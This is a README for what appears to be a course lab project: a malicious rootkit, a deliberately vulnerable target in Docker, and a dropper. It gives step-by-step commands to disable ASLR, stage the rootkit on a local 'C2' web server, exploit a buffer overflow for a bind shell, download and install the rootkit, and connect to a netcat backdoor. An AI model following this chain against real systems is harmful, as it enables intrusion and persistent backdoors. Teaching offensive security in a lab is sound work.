 # Rootkit Project

## Project Layout

`rootkit/` - contains source code for malicious rootkit library 
`dropper/` - contains vulnerable target program and payload delivery code
`target/` - contains code for testing/target environment (will eventually be run on target server)

## Purpose

This readme details the process for setting up your test environment, and installing your malware using an exploit script.

In order to do install, you will run an exploit script which will exploit a buffer overflow in the target process.
This will open up a temporary bind shell into the process which you can use to install your rootkit onto the system.

This will give you a more permenant backdoor, and also allow you to use all of your features in the coming weeks, as you
add more.

## Test Target Environment Setup

Perform all these steps in the vm in the **target/ directory**

1. install docker

```sh
curl -fsSL https://get.docker.com -o get-docker.sh
sh get-docker.sh
```

2. disable ssh

```sh
sudo systemctl stop sshd
```

3. disable aslr

```sh
sudo echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```
4. install and enable apache

```sh
sudo apt install apache2
```

5. Install `pip` and `pwntools`

```sh
sudo apt-get install pip3
pip3 install pwn
```

6. Install `docker-compose`.

```sh
sudo apt install docker-compose
```

7. run `sudo docker compose up -d`

## Malware Installation Process

Preform these steps in the **dropper/ directory** 

### Set up C2

1. create rootkit tarball
> make sure you compile your rootkit and move the rootkit.so file to the 

```sh
tar -czf rootkit.tz drop.sh rootkit.so
```
 
2. move the rootkit tarball to /var/www/html ("C2 server")

```sh
cp rootkit.tz /var/www/html
```

### Run the exploit 

1. run your exploit, it will hang, let it do so

```sh
python3 exploit.py
```

2. in a separate terminal connect to localhost:4567 via `nc` (stage 1 bind shell)
3. download and unzip your tarball

```sh
wget http://127.0.0.1/rootkit.tz
tar -xzf rootkit.tz
```

4. install your malware

```sh
chmod +x drop.sh 
./drop.sh (installs your malware)
```

5. ssh into trigger address
```sh
ssh joebruin@localhost
```

6. open bind shell (nc localhost 1234)

```sh
nc localhost 1234
```

7. Hack Away - your malware is running in the docker container

